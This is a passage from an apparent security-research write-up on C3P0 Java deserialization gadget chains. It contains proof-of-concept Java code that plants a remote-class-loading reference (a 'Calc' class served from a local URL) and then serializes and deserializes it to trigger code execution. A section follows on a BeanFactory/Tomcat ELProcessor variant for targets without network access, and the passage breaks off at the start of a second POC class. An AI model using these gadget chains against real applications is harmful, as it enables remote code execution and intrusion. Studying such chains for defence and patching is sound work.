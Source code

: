 ```java
        }
    }

    public static void main(String[] args) throws Exception {

        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        ConnectionPoolDataSource connectionPoolDataSource = new notSerializable("Calc", "http://localhost:1209/");
        Field field = poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(poolBackedDataSourceBase, connectionPoolDataSource);

        String serializeData = serialize(poolBackedDataSourceBase);
        System.out.println(serializeData);
        unserialize(serializeData);
    }
}
```

<div align=center><img src="./images/2.png"></div>

## BeanFactory
### Process Analysis
The remote malicious class used in the URLCLassLoader-Gadget is not used when the target environment cannot leave the network. In the ReferenceableUtils#referenceToObject, it is noted that when the value of `var0.getFactoryClassLocation() is null, it will load by default instead of remote loading. Then, the `getObjectInstance` method is called. Here you can refer to the Exploiting JNDI Injections in Java. Reference [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java). Expression injection can be implemented by calling the ELProcessor's eval method through the `getObjectInstance` method of `Tomcat`. In theory, it can be used without networks when the target environment is `Tomcat8`.

### POC

```java
package org.h3rmesk1t.C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStr
eam;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 5:41 pm
 */
public class C3P0BeanFactory {
```